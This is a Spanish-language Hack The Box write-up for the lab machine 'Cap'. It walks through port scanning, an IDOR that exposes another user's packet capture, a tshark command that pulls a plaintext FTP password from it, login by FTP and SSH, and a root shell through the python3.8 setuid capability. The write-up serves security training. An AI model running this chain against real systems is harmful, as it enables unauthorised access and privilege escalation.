 ```yaml
---
category: Hack The Box
tags:
  - HTB
  - eJPT
title: Machine Cap
comments: true
author: Indiopicaro
image: /assets/img/machines/cap/capbanner.jpeg
---
```

# Introducción

Cap es una máquina Linux de dificultad fácil que ejecuta un servidor HTTP, lo que permite a los usuarios capturar el tráfico no cifrado. Un control inadecuado da como resultado una Referencia Directa a Objetos Insegura (IDOR), que permite el acceso a la captura de otro usuario. La captura contiene credenciales en texto plano y puede utilizarse para obtener acceso. Posteriormente, se utiliza una función de Linux para obtener acceso root.

### Skills

- Insecure Directory Reference (IDOR)
- Information Leakage
- Abusing Capabilities (python3.8) (Privilege Escalation)

# Enumeración

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.10.245 -oG puertos
```

```bash
nmap -sCV -p21,22,80 10.10.10.245 -oN versiones
```
### Puertos

- 21 ----> vsftpd 3.0.3
- 22 ----> OpenSSH 8.2P1 Ubuntu 4Ubuntu0.2
- 80 ----> http gunicorn


# WEB
## Information Leakage

La página web revela información al consultarla a través de la URL.

![Information Leakage](/assets/img/machines/cap/1.jpeg)

### IDOR

Un aspecto interesante a tener en cuenta es el esquema de URL al crear una nueva captura, que tiene el formato /data/id. El ID se incrementa con cada captura. Es posible que haya habido capturas de paquetes de usuarios anteriores. Al navegar a /data/0, se revela una captura de paquetes con varios paquetes.

![IDOR](/assets/img/machines/cap/2.jpeg)

#### Extracción de datos de un archivo de captura de red (.pcap)

Para analizar el tráfico capturado y extraer el contenido de los paquetes TCP de forma limpia, utilizamos el siguiente comando:

```bash
tshark -r 0.pcap -Tfields -e tcp.payload 2>/dev/null | xxd -ps -r
```
¿Qué hace este comando?
- `tshark -r 0.pcap`  
    ➔ **Abre y lee** el archivo de captura de paquetes `0.pcap`.
    
- `-T fields -e tcp.payload`  
    ➔ **Extrae solo** el campo `tcp.payload`, es decir, **el contenido crudo** de los paquetes TCP.
    
- `2>/dev/null`  
    ➔ **Elimina mensajes de error** (redirige los errores a `/dev/null` para que no ensucien la salida).
    
- `|`  
    ➔ **Pasa** la salida anterior como entrada al siguiente comando.
    
- `xxd -ps -r`  
    ➔ **Convierte** los datos de **hexadecimal plano a datos legibles** (básicamente "decodifica" el payload).

Dentro del tráfico extraído se encontró la siguiente contraseña:

```bash
PASS Buck3tH4TF0RM3!
```

# Acceso

### FTP

```bash
ftp@10.10.10.245
username: nathan
password: Buck3tH4TF0RM3!
```

```bash
get user.txt
```


### SSH


```bash
ssh nathan@10.10.10.245

password: Buck3tH4TF0RM3!
```

## Escalada

```bash
getcap -r / 2>/dev/null
```

Este comando **intenta obtener una shell como root**, pero **solo funcionará si el proceso de Python se está ejecutando con privilegios de root**, o si el ejecutable de Python tiene el bit `setuid` activado

```bash
python3.8 -c 'import os; os.setuid(0); os.system("bash")'
```
intenta ejecutar un **shell bash como el usuario root** (UID 0) usando Python 3.8.
- `python3.8 -c '...'`: ejecuta el código Python que está dentro de las comillas directamente desde la línea de comandos.
    
- `import os`: importa el módulo `os`, que permite interactuar con el sistema operativo.
    
- `os.setuid(0)`: cambia el ID de usuario del proceso actual a `0`, que es el UID del usuario **root**.
    
- `os.system("bash")`: ejecuta el comando `bash`, abriendo una shell.

```bash
cd /root/
cat root.txt
```
